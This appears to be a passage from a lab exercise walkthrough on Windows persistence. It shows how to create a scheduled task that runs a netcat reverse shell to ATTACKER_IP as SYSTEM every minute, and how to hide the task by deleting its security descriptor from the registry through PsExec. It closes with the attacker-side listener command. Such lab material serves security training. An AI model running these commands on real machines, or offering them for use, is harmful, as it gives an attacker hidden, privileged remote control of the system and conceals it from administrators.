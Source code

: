 # Abusing scheduled tasks

The most common way to schedule tasks is using the built-in 
[Windows task scheduler](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks). 
The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that 
will activate at specific hours, repeat periodically or even trigger when specific system events occur.

Create a task that runs a reverse shell every minute. In a real-world scenario, you will not want your payload to 
run that often, but we don't want to wait too long for this exercise:

    schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
    SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.

The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates 
that the task will run with `SYSTEM` privileges. Check with:

    schtasks /query /tn thm-taskbackdoor

To hide the scheduled task, make it invisible to any user in the system by deleting its Security Descriptor (SD). 
The security descriptor is an ACL that states which users have access to the scheduled task. If a user is not 
allowed to query a scheduled task, it will not be visible, as Windows only shows the tasks that a user has permission 
to use. Deleting the `SD` is equivalent to disallowing all users' access to the scheduled task, including 
Administrators.

The security descriptors of all scheduled tasks are stored in 
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. There is a registry key for every task, 
under which a value named `SD` contains the security descriptor. You can only erase the value if you have SYSTEM 
privileges.

Use `psexec` (available in `C:\tools`) to open `Regedit` with `SYSTEM` privileges:

    c:\tools\pstools\PsExec64.exe -s -i regedit

And delete the security descriptor for the task.

Checking, the system reports there is no such task:

    schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.

Start a listener on the attack machine:

     nc -nlvp 4449

And a reverse shell.

